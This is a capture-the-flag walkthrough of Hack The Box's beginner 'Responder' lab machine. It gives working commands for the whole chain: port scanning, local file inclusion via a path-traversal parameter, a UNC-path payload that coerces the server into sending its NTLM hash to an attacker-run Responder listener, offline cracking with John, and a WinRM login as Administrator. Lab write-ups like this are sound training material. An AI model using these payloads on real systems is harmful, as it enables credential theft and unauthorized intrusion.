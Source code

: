 ![Responder Header](images/header.png)

# Introduction

As part of the learning path for beginners, Hack The Box offers a series of machines under the Starting Point Tier 1 category. These are designed to help new users get familiar with the fundamentals of penetration testing in a guided and progressive way. Among them, **Responder** stands out as the first machine that introduces a slightly more complex challenge. Despite its `Very Easy` difficulty rating, solving it requires chaining together a few steps — making it more structured than previous boxes in the path. It's a great opportunity for newcomers to practice building simple attack chains and start developing a more methodical mindset when approaching machines.

# Information Gathering

## Nmap

The first step was to identify open ports and services running on the target. I started with a full `TCP SYN` scan across all 65,535 ports.

```
sudo nmap -sS -p- -T5 10.129.197.98 

PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
```

This revealed two open ports:

- Port 80/tcp – `HTTP`
- Port 5985/tcp – `WSMan (Windows Remote Management)`

Next, I ran a more detailed service and version detection scan on these ports using the default Nmap scripts.

```
sudo nmap -sS -sC -sV -p 80,5985 -T5 10.129.197.98
```

### Port 80 – HTTP

```
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
```

The web server is running `Apache 2.4.52` on a Windows platform, along with `PHP 8.1.1`. The response headers and the use of the `(Win64)` build clearly suggest that the underlying operating system is Windows.

### Port 5985 – WSMan (WinRM)

```
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

This port is associated with `Windows Remote Management (WinRM)` and confirms that the target is running `Microsoft HTTPAPI 2.0`, further verifying the Windows environment.

### Web Technologies

To enumerate the technologies used by the web server, I utilized `Wappalyzer`, which confirmed the same information gathered with Nmap. This reinforced the initial findings and helped validate the target’s technology stack.

![Web Technologies](images/web-technologies.png)

## Web Enumeration

After identifying that the web server was running `Apache` on Windows at port `80`, I started by browsing the site manually. While there were no useful results from directory brute-forcing with tools like `gobuster`, one particular feature on the homepage caught my attention: a language selection menu. 

![Language Selection](images/language-selection.png)

Inspecting the URL when changing the language revealed the following pattern:

```
http://unika.htb/index.php?page=german.html
```

This indicated that the page content was likely being dynamically included based on the `page` parameter — a potential sign of `Local File Inclusion (LFI)`. To test for LFI, I modified the `page` parameter to attempt accessing a local system file.

```
http://unika.htb/index.php?page=../../../../../../../windows/win.ini
```

![LFI Success.png](images/lfi-success.png)

The file was successfully included and displayed in the browser, confirming the presence of an LFI vulnerability. At this point, I knew that the server was vulnerable to arbitrary file inclusion, and I began exploring ways to leverage this vulnerability to move further into the system.

## Deeper Investigation and NTLM Hash Capture via SMB

After confirming the LFI vulnerability, I initially tried to escalate it to a `Remote File Inclusion (RFI)` attack by hosting a malicious web shell via a Python HTTP server, hoping to include it remotely through the vulnerable `page` parameter. Unfortunately, this approach did not work, as the server was not configured to allow RFI.

While digging deeper, I discovered an important detail about how PHP’s `include()` function behaves on Windows systems when given a UNC path (a network share path like `\\10.10.14.249\fakeshare`). When PHP on a Windows system attempts to include a remote file via a UNC path (e.g., `\\10.10.14.249\fakeshare`), the server tries to authenticate to that remote SMB share using `NTLM` authentication.

This behavior can be abused to capture authentication hashes by setting up a malicious SMB server on the attacker’s machine. The target server will automatically send its credentials when attempting to access the share, allowing an attacker to capture NTLM hashes.

To exploit this, I launched `Responder` on my machine to listen and capture NTLM hashes over SMB.

```
sudo responder -I tun0 -d -w
```

Then, I crafted the URL in the vulnerable web parameter to force the server to connect to my machine’s non-existent SMB share.  

```
http://unika.htb/index.php?page=//10.10.14.249/fakeshare
```

As a result, the target machine tried to access the fake SMB share hosted by `Responder`, sending its NTLM authentication hash, which I successfully captured. Among these hashes was the hash for the `Administrator` user.

![Admin Hash.png](images/hash.png)

## Cracking the Captured NTLM Hash

After capturing the NTLM hash of the Administrator account with `Responder`, I saved it into a file named `hash.txt`. The next step was to crack the hash offline to obtain the cleartext password. I used `John the Ripper` setting the `netntlmv2` format options and the popular `rockyou.txt` wordlist.

```
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2025-05-29 11:31) 33.33g/s 136533p/s 136533c/s 136533C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

The cracking process was very fast, and John successfully recovered the password. With the `Administrator` password in hand, I was now ready to proceed with privileged access to the target machine.

## Accessing the Machine and Retrieving the Flag

With the cracked credentials in hand, I used **`evil-winrm`** to log into the target machine via the `WinRM` service running on port `5985`.

```
evil-winrm -u administrator -p 'badminton' -i 10.129.197.98
```

![Logged In.png](images/logged-in.png)

Once inside, I used `PowerShell` to search recursively for the flag file.

```
Get-Childitem -Path c:\ -Recurse -Filter "flag*"

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

I navigated to the directory to verify and access the file.

```
cd ../../mike/Desktop
ls

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

Finally, I opened the `flag.txt` file to capture the flag and complete the challenge.

## Conclusion

For this walkthrough, I chose to take a different approach than the official Hack The Box methodology. HTB breaks down the `Responder` challenge into eleven guided tasks, leading the user step-by-step with specific questions towards the flag. Instead, I decided to follow a more `black-box methodology`, approaching the machine as a real-world engagement — without hints or a strict path laid out. 

This meant relying on careful enumeration, logical reasoning, and chaining vulnerabilities based on the information uncovered during the whole process. I believe this approach provides a deeper learning experience, helping to develop the skills needed to tackle similar challenges in less guided, more realistic scenarios.

If you’re new to penetration testing, I recommend starting by following the guided HTB path. Then, after some time, come back and try to solve it again on your own to truly sharpen and test your skills.

